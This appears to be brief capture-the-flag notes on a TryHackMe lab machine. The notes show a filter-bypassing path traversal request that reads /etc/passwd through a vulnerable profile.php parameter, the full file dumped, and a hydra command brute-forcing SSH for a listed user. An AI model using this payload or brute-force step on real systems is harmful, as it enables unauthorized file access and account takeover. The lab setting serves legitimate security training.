 ## Found LFI
GET http://10.10.71.113:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd HTTP/1.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:114:121::/var/spool/postfix:/usr/sbin/nologin
dovecot:x:115:123:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:124:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash


hydra -l joshua -P /usr/share/wordlists/fasttrack.txt <IP> ssh get password and 
and secret file
505eb0fb8a9f32853b4d955e1f9123ea.txt   
<\code>

